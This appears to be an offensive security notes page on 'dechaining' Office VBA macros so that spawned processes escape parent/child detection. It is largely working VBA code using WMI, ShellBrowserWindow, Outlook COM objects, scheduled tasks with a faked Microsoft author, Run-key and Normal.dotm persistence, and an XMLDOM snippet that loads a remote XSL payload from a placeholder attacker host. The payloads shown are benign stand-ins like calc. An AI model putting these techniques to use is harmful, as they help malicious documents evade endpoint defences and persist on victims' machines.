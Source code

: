 # ⭕ Dechaining Macros

Looking at the Parent/Child processes is a good indicator of malicious activity, for example MSWord spawning PowerShell is pretty suspicious. Here, we will show some techniques that can be used to evade these types of analysis.

## <mark style="color:red;">WMI</mark> <a href="#wmi" id="wmi"></a>

```
Sub MyMacro()
    Arg = "cmd /k calc.exe"
    GetObject("winmgmts:").Get("Win32_Process").Create Arg, Null, Null, pid
End Sub
```

```
// Some codeSet objWMIService = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2")
Set objStartup = objWMIService.Get("Win32_ProcessStartup")
Set objConfig = objStartup.SpawnInstance_
Set objProcess = GetObject("winmgmts:root\cimv2:Win32_Process")
errReturn = objProcess.Create("cmd.exe /k calc.exe", Null, objConfig, intProcessID)
```

This will make your process be spawned under "wmiprvse.exe."

## <mark style="color:red;">ShellBrowserWindow</mark> <a href="#shellbrowserwindow" id="shellbrowserwindow"></a>

```
Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880")
obj.Document.Application.ShellExecute "calc",Null,"C:\\Windows\\System32",Null,0
```

This will make your process spawn from under "explorer.exe"

## <mark style="color:red;">XMLDOM</mark> <a href="#xmldom" id="xmldom"></a>

```
Set xml = CreateObject("Microsoft.XMLDOM")
xml.async = False
Set xsl = xml
xsl.load(“http://attacker.com/payload.xsl”)
xml.transformNode xsl
```

## <mark style="color:red;">Scheduled Tasks</mark> <a href="#3e76" id="3e76"></a>

```
Set service = CreateObject("Schedule.Service")
Call service.Connect
Dim td: Set td = service.NewTask(0)
td.RegistrationInfo.Author = "Microsoft Corporation"
td.settings.StartWhenAvailable = True
td.settings.Hidden = False
Dim triggers: Set triggers = td.triggers
Dim trigger: Set trigger = triggers.Create(1)
Dim startTime: ts = DateAdd("s", 30, Now)
startTime = Year(ts) & "-" & Right(Month(ts), 2) & "-" & Right(Day(ts), 2) & "T" & Right(Hour(ts), 2) & ":" & Right(Minute(ts), 2) & ":" & Right(Second(ts), 2)
trigger.StartBoundary = startTime
trigger.ID = "TimeTriggerId"
Dim Action: Set Action = td.Actions.Create(0)
Action.Path = "C:\Windows\System32\notepad.exe"
Call service.GetFolder("\").RegisterTaskDefinition("UpdateTask", td, 6, , , 3)
```

## <mark style="color:red;">Registry Keys</mark> <a href="#registry-keys" id="registry-keys"></a>

We can modify the registry which can serve as persistence and a way of executing your code.&#x20;

WMI:

```
Set objRegistry = GetObject("winmgmts:\\.\root\default:StdRegProv")
objRegistry.SetStringValue &H80000001, "Software\Microsoft\Windows\CurrentVersion\Run", "key1", "value1"
```

Wscript:

```
Set WshShell = CreateObject("WScript.Shell")
WshShell.regwrite "HKCU\Software\Microsoft\Windows\CurrentVersion\Run\key2", "value2", "REG_SZ
```

## <mark style="color:red;">PPID Spoofing & Command Line Spoofing</mark>&#x20;

Basically we can spoof the parent by passing an arbitrary parent process name you want to use with the CreateProcessA function. We can also spoof the command line arguments by modifying the “CommandLine” in the RTL\_USER\_PROCESS\_PARAMETERS structure in the PEB.

&#x20;The implementation in VBA is here:

{% embed url="https://github.com/christophetd/spoofing-office-macro/blob/master/macro64.vba" %}

## <mark style="color:red;">Injecting Shellcode</mark> <a href="#injecting-shellcode" id="injecting-shellcode"></a>

Injecting our shellcode to a remote process can make our payload live in another process, although this is not a parent-child evasion technique, we can make our payload live in a remote process.

## <mark style="color:red;">Template persistence</mark>

```
Set objShell = CreateObject("Wscript.Shell")
appDataLocation = objShell.ExpandEnvironmentStrings("%APPDATA%")
Path = appDataLocation & "\Microsoft\Templates"
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objFile = objFSO.CreateTextFile(Path & "\Normal.dotm", True)
objFile.Write payload
objFile.Close
```

## <mark style="color:red;">Outlook</mark> <a href="#outlook" id="outlook"></a>

```
Set obj = GetObject("new:0006F03A-0000-0000-C000-000000000046")
obj.CreateObject("WScript.Shell").Run ("calc.exe")
```
